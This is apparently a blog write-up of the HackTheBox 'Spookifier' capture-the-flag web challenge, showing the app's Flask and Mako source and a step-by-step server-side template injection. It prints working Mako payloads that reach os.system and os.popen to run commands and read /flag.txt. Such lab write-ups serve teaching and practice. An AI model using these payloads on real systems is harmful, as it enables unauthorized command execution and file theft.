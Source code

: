 ```yaml
---
title: Spookifier HTB Challenge (English)
image: https://tse1.mm.bing.net/th?id=OIG1.iKzTRYDeUwZgb8AvNvbH&pid=ImgGn
description: Challenge Spookifier HTB [Difuculty very easy]
categories: [Challenge,HackTheBox]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: Spookifier
- Goal: Get the flag
- Difficulty: very easy
- Operating System: N/A
- link: [Spookifier](https://app.hackthebox.com/challenges/413)

  

### PDF Link

- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20Spookifier.pdf)


We have this input where whatever we introduce we get their differents font styles:

![](/assets/img/Anexos/Pasted%20image%2020250402090826.png)

![](/assets/img/Anexos/Pasted%20image%2020250402090845.png)

We can try a **XSS Injecton** 
![](/assets/img/Anexos/Pasted%20image%2020250402090924.png)

It's worked, but this is not for this way.

If we check the web files we can affirm it's using _MakoTemplates_

```shell
❯ ls -l
drwxrwxrwx root root 4.0 KB Tue Nov  1 10:20:58 2022  application
.rwxrwxrwx root root 101 B  Tue Nov  1 09:38:18 2022  run.py
❯ cat run.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: run.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from application.main import app
   2   │ 
   3   │ app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```

```shell
❯ cat main.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: main.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from flask import Flask, jsonify
   2   │ from application.blueprints.routes import web
   3   │ from flask_mako import MakoTemplates
   4   │ 
   5   │ app = Flask(__name__)
   6   │ MakoTemplates(app)
   7   │ 
   8   │ def response(message):
   9   │     return jsonify({'message': message})
  10   │ 
  11   │ app.register_blueprint(web, url_prefix='/')
  12   │ 
  13   │ @app.errorhandler(404)
  14   │ def not_found(error):
  15   │     return response('404 Not Found'), 404
  16   │ 
  17   │ @app.errorhandler(403)
  18   │ def forbidden(error):
  19   │     return response('403 Forbidden'), 403
  20   │ 
  21   │ @app.errorhandler(400)
  22   │ def bad_request(error):
  23   │     return response('400 Bad Request'), 400
```

So let's try **SSTI**

![](/assets/img/Anexos/Pasted%20image%2020250402091448.png)
it does not work with this payload, let's try with:

```shell
${7*7} 
```

![](/assets/img/Anexos/Pasted%20image%2020250402091506.png)

It worked. This is MakoTemplates so the next step is **command injection**:

```shell
${self.module.cache.util.os.system("id")}
```


![](/assets/img/Anexos/Pasted%20image%2020250402091908.png)

At firts I was not able to see the output, that's why we have to replace `os.system()` with `os.popen().read()`

```shell
${self.module.cache.util.os.popen('id').read()}
```
![](/assets/img/Anexos/Pasted%20image%2020250402092715.png)

Now we're able to see the output and we get the flag!

```shell
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](/assets/img/Anexos/Pasted%20image%2020250402092735.png)